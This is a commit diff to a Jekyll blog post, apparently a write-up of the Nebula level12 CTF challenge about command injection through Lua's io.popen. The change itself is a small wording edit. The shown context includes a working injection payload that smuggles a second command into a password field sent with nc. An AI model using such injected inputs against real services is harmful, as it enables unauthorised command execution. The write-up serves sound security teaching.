

Before and after one commit to n33m0/n33m0.github.io, a Jekyll site: the page built from _posts/2015-04-30-20xx-a1-injection.md, in a window 1280 px wide. Shown: the part 713-999 px from the top of the page, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
Nebula12 amend

```diff
--- a/_posts/2015-04-30-20xx-a1-injection.md
+++ b/_posts/2015-04-30-20xx-a1-injection.md
@@ -10,7 +10,7 @@ category: CTF, Nebula
 	<img src="/images/2015-04-30-20xx-a1-injection/d07c009c4db4f137254e650332c.jpg">
 </center>
 <br />
-This one is pretty easy, it contains [injection flaw](https://www.owasp.org/index.php/Top_10_2013-A1-Injection). The vulnerability arises when a naked unhandled input string falls into "_hash_" function as an "_password_" argument. [io.popen](http://www.lua.org/manual/5.1/manual.html#pdf-io.popen) lua facility starts commands chain in a separated process, thereby we can provide injection:
+This one is pretty easy, it contains [injection flaw](https://www.owasp.org/index.php/Top_10_2013-A1-Injection). The vulnerability arises when a naked unhandled input string falls into "_hash_" function as an "_password_" argument. [io.popen](http://www.lua.org/manual/5.1/manual.html#pdf-io.popen) lua facility starts command sequence in a separated process, thereby we can provide injection:
 {% highlight sh linenos %}
 level12@nebula:~$ echo "0; getflag > /tmp/flag; echo 0" | nc localhost 50001
 Password: Better luck next time
```
